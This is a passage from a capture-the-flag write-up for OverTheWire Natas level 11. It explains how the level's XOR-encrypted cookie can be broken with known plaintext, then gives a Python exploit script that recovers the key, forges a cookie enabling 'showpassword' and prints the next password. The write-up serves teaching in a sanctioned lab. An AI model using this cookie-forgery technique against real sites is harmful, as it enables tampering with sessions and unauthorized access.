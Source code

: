 ~~~php
Background color: <input name=bgcolor value="<?=$data['bgcolor']?>">
<input type=submit value="Set color">
</form>

~~~
Looking at the sourcecode, it is clear that we need to get the variable `$data["showpassword"]` changed from no to yes.
It seems like if we set a bgcolor from the page the data is updated and the function `saveData` is called. 
`saveData` does a [json-encoding](https://en.wikipedia.org/wiki/JSON), xor encryption, [base64 encoding](https://en.wikipedia.org/wiki/Base64) and sets this as a cookie.
The other function 'loadData' does the opposite reading the values from a cookie. Finally there is the actual XOR encryption. A basic XOR encryption 
with a key that we do not get.

So it seems our task is to manipulate the cookie, as that is where the showpassword key is. XOR encryption is quite simple
to break:
A plaintext XORed with a key result in an encrypted bytes.  
Opposite, encrypted bytes XORed with the key, result in the plaintext.  
Interesting enough, plaintext XORed with encrypted will result in the key.  
We can use that last rule as our attack, as we know the plaintext, and we know the encrypted bytes (they are in the cookie).
When we successfully have retrieved the key, its trivial the encrypt a new cookie, request the page and retrieve the password.
I will do this programmatically with python, comments in the code explain what I do.
~~~python
# file: "exploit.py"
import requests
import urllib.parse
import base64

url = 'http://natas11:<redacted>@natas11.natas.labs.overthewire.org/'


def xor(bytes1, bytes2):
    return bytes([b1 ^ b2 for (b1, b2) in zip(bytes1, bytes2)])


# Get the initial page with the supplied username/password.
res = requests.get(url)

# Get the data cookie, base64 decode it resulting in encrypted bytes.
encrypted = base64.b64decode(urllib.parse.unquote(res.cookies['data']))

# Using a small piece if the json representation of the default-data as left side of xor, and encrypted bytes as right side.
# Try and fail gives us the xor key length, and here it was 4 characters.
xorKey = xor(b'{"sh', encrypted)

# recreate a fake cookie (using 44 as total length), and request the server again.
data = base64.b64encode(xor(xorKey * 11, b'{"showpassword":"yes","bgcolor":"#ffffff"}  ')).decode()

result = requests.get(url, cookies={'data': data}).content.decode()
i1 = result.index('The password for natas12 is ')
i2 = result.index('<br>', i1)
print(result[i1:i2])
~~~
